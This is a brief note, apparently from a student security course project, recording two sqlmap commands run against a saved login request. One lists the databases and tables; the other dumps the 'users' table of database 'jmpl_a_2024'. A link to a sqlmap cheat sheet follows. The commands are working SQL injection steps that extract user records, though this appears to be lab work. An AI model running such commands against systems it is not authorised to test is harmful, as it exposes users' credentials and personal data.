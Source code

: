 # Command used

```
python sqlmap.py -r "E:\VSCode\JMPL_A_2024\sqlmap_files\login" --data="email=admin&password=admin1234" --tables --dbs --output-dir="E:\VSCode\JMPL_A_2024\sqlmap_files"

python sqlmap.py -r "E:\VSCode\JMPL_A_2024\sqlmap_files\login" --data="email=admin&password=admin1234" -D jmpl_a_2024 -T users --dump --output-dir="E:\VSCode\JMPL_A_2024\sqlmap_files"

```

more references goes to [StationX](https://www.stationx.net/sqlmap-cheat-sheet/) or just google it yourself
